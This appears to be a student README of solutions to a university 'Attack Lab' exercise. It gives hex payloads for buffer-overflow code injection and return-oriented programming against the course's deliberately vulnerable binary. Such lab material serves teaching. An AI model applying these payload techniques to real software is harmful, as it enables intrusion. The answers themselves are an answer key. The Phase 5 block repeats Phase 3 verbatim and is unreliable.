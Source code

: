 # Attack Lab
See assignment details at attacklab.pdf.  
See guide at https://github.com/magna25/Attack-Lab/.

## Phase 1 Solution
```
// 40 bytes
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
// address of touch1 (8 bytes)
74 16 40 00 00 00 00 00
```

## Phase 2 Solution
```
// injected code with total 40 bytes
48 c7 c7 1f 25 3c 37 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch2
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00 
```

## Phase 3 Solution
```
// injected code with total 40 bytes
48 c7 c7 50 17 68 55 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch3
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00
// cookie
33 37 33 63 32 35 31 66
```

## Phase 4 Solution
```
// fill with 40 bytes
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// first gadget - popq %rax
1d 18 40 00 00 00 00 00
// cookie
1f 25 3c 37 00 00 00 00
// second gadget - mov %rax to %rdi
0c 18 40 00 00 00 00 00
// address of touch2
a0 16 40 00 00 00 00 00
```

## Phase 5 Solution
```
// injected code with total 40 bytes
48 c7 c7 50 17 68 55 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch3
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00
// cookie
33 37 33 63 32 35 31 66
```
